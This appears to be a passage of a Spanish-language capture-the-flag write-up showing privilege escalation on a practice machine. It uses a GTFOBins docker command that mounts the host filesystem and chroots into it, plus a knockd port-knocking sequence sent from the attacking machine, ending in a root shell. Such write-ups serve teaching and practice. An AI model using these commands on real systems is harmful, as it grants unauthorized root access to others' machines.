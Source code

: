 Consultamos en GTFOBins:

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh

```

Lo ejecuto, pero encuentro una respuesta inesperada!

```
firsthacking@b26f6749e4a2:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
�Fijate que hay algo esperando a que llames

 12345 54321 24680 13579 

De nada servira si no llamas antes

```


¿Se refiere a knockd?

```
firsthacking@b26f6749e4a2:~$ which knockd
/usr/sbin/knockd

```


Tiene pinta de que sí.

Vamos a probar:
En nuestra maquina atacante:

```
knock -v 172.17.0.2 12345 54321 24680 13579
```


Y de nuevo probamos en la maquina victima:

```
firsthacking@d7805eaf2e05:/$ sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
docker: Cannot connect to the Docker daemon at unix:///var/run/docker.sock. Is the docker daemon running?.
See 'docker run --help'.
firsthacking@d7805eaf2e05:/$ sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
ec99f8b99825: Pull complete 
Digest: sha256:b89d9c93e9ed3597455c90a0b88a8bbb5cb7188438f70953fede212a0c4394e0
Status: Downloaded newer image for alpine:latest

# whoami
root
# 

```
 

PWNED!!



